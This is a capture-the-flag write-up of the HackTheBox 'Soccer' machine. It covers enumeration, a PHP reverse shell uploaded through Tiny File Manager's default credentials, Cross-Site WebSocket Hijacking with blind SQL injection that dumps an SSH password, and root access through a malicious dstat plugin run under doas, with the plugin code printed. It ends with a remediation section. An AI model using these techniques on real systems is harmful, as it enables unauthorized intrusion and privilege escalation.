# SOCCER



This write-up explores how a vulnerable file manager and misconfigured WebSocket server on the Soccer machine led to full system compromise, beginning with standard enumeration and leading to remote code execution through a vulnerable file manager. A Cross-Site WebSocket Hijacking (CSWSH) vulnerability in a subdomain revealed an exploitable SQL injection, ultimately yielding valid credentials for SSH access. The attack concludes with privilege escalation via a custom doas configuration.

## Reconnaissance and Enumeration

An Nmap scan revealed ports 22, 80, and 9091 open. The web server redirected to soccer.htb, which was added to the /etc/hosts file.

```sh
❯ sudo nmap -sC -sV -T4 -oA Scans/nmap/nmap_results 10.129.127.215
Command executed at: 2025-03-17 18:46:48
...
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
...
```

A subdirectory scan found /tiny, leading to a Tiny File Manager login page.

```sh
❯ ffuf -w ~/MyWordlists/subdirectory/big.txt -u http://soccer.htb/FUZZ
Command executed at: 2025-03-17 19:00:32

.htaccess               [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 94ms]
.htpasswd               [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 94ms]
tiny                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 75ms]
```



Default Admin credentials from the Tiny File Manager public github page (admin:admin@123) provided dashboard access.





A test upload revealed the webroot as /var/www/html/tiny. Although the tiny directory was not writable, the /tiny/uploads folder was, with permissions set to 0757.



Uploading a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) yielded remote code execution as www-data.

```sh
❯ nc -lvnp 4444
Command executed at: 2025-03-18 08:17:31
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.129.127.215] 34250

www-data@soccer:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> Tiny File Manager 2.4.3 is known to suffer from a path traversal vulnerability (CVE-2023-26565), though in this case, the `uploads` folder was already writable, enabling RCE without requiring directory traversal.

## Internal Enumeration as www-data

Searching for SUID binaries exposed **/usr/local/bin/doas**, and its config file showed that the `player` user could execute /usr/bin/dstat as root:

```sh
www-data@soccer:/$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 42224 Nov 17  2022 /usr/local/bin/doas
...
```

```sh
www-data@soccer:/$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

### **Did You Know? - doas & dstat**

> **doas** is like a lightweight version of sudo, used to run commands as another user. On this box, it's configured to let the `player` user run **dstat** as root with no password.
**dstat** is a system monitor that loads plugin files when it runs. By placing a malicious plugin in a writable folder, it may be possible to execute code as root and escalate privileges.

An nginx log disclosed a new subdomain: **soc-player.soccer.htb**

```sh
www-data@soccer:~/html$ cat /var/log/nginx/access.log.1
... "POST /signup HTTP/1.1" 200 5 "http://soc-player.soccer.htb/signup" ..."
```

## Enumeration of soc-player.soccer.htb

This subdomain hosted a simple app with login and signup features. Account creation led to a ticket checker at /check, which communicated with ws://soc-player.soccer.htb:9091 via WebSocket.







### WebSocket Testing

Using a custom HTML page, it was confirmed that WebSocket responses could be triggered from an external domain, validating a CSWSH vulnerability.



### **Did You Know? - CSWSH**

> **WebSockets** are like a live, two-way chat between a website and its server. Instead of sending one message at a time like normal websites, they keep a constant connection open for real-time updates—useful for things like games, chat apps, or live data.
Normally, servers check who’s connecting to make sure it’s a real user on the real website. But if the server skips that check, anyone can connect—even you, directly, from your own setup. This weakness is called **Cross-Site WebSocket Hijacking (CSWSH)**, and it means the server doesn’t care who’s talking to it.

Further probing revealed that the WebSocket server was backed by a SQL database, and injecting the simple test payload `or 1=1-- -` returned “Ticket Exists”, proving SQL injection was possible.



## Exploiting Blind SQL Injection via CSWSH

A middleware proxy was created to format SQLMap requests as WebSocket messages. Using this, SQLMap enumerated the database **soccer_db**, its table **accounts**, and dumped the following credentials:

```txt
player:PlayerOftheMatch2022
```

### **Did You Know? - SQLMap With WebSockets**

> **SQLMap** doesn’t work with WebSockets by default—it only talks to normal websites. To fix that, we can make a proxy that takes SQLMap’s requests, converts them into WebSocket messages, and sends them to the server. It then sends the replies back to SQLMap like normal. [Learn More](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

Testing credential reuse, SSH access as `player` succeeded.

```sh
❯ ssh player@soccer.htb
Command executed at: 2025-03-18 12:13:34
...
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
```

## Privilege Escalation to Root

To recap, the config file at `/usr/local/etc/doas.conf` allows the player user to run `/usr/bin/dstat` as **root** with no password.

**dstat** is a monitoring tool that dynamically loads plugins from specific folders. One of these folders, `/usr/local/share/dstat/`, is writable by the `player` user. This allows the creation of a malicious plugin that can be executed with root privileges.

A custom plugin was created at `/usr/local/share/dstat/dstat_pwn.py` with the following code:

```python
class dstat_plugin:
    def __init__(self):
        os.setuid(0)
        os.system("/bin/bash")
```

By placing a malicious plugin in a folder that dstat checks for additional modules, the player user can inject code that runs with root privileges due to the doas configuration. This bypasses the need for traditional sudo access.

Executing `doas /usr/bin/dstat --pwn` successfully escalated us to **root**

```sh
root@soccer ~/: id
uid=0(root) gid=0(root) groups=0(root)
```



## Findings and Remediation

### Findings

- **Weak Web App Security:** The WebSocket server allowed Cross-Site WebSocket Hijacking (CSWSH), exposing backend behavior to external sites.
- **SQL Injection:** The ticket validation system was vulnerable to Blind SQL Injection via WebSocket messages.
- **Credential Disclosure:** SQL injection exposed valid credentials for the player user.
- **Password Reuse:** The player user's web application password also worked for SSH access.
- **Privilege Misconfiguration:** player could run dstat as root via doas, allowing privilege escalation through a malicious plugin.

### Remediation

- **WebSocket Hardening:** Implement strict origin checks to prevent CSWSH. Validate all WebSocket connections to ensure they originate from trusted domains.
- **Input Validation:** Sanitize all user inputs, especially those interacting with databases. Use parameterized queries to prevent SQL injection.
- **Credential Management:** Avoid storing sensitive data like credentials in web-accessible databases without proper encryption and access controls.
- **Enforce Unique Passwords:** Prevent password reuse across services by enforcing password rotation policies and validating password uniqueness at login creation.
- **Limit Privilege Escalation Paths:** Review and restrict doas configurations. Avoid granting users access to tools like dstat with root privileges unless absolutely necessary.

## Lessons Learned

Even a simple ticket-checking app can lead to full system compromise when combined with WebSocket misconfigurations and SQL injection. This box demonstrates how **low-privilege footholds** can be chained with **obscure vulnerabilities** to escalate all the way to **root access**.

## Resources

- [HackTheBox - Soccer CTF](https://app.hackthebox.com/machines/519)
- [Automating Blind SQL injection over WebSockets](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

---

[⬅ Back to Home](/CTF-Reports/)
